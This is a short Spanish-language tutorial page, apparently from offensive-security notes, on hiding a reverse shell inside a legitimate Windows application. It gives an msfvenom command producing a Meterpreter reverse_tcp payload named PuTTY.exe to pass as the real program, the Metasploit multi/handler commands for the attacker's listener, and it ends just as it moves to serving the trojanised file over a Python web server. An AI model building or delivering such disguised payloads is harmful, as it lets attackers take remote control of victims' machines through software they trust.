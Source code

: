 ```yaml
---
icon: laptop-file
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# RevrseShell Oculta en windows

## <mark style="color:purple;">Forma manual para entender como funciona por dentro</mark>

Vamos a crear el archivo malicioso oculto dentro de uno legitimo, escogeremos cualquier aplicacion que queramos ocultar el codigo malicioso, una vez teniendo la aplicacion haremos lo siguiente.

Antes de crearlo en nuestra maquina atacante creamos el archivo con `msfvenom`.

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > PuTTY.exe
```

Configuramos la escucha de metasploit.

```shell
msfconsole -q
```

```shell
use multi/handler
```

Configuramos la escucha.

```shell
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
```

Y ejecutamos la escucha, ahora esto lo dejaremos en segundo plano.

```shell
run
```

En otra terminal, abrimos un servidor de python para pasarnos la aplicacion legitima con codigo maligno.

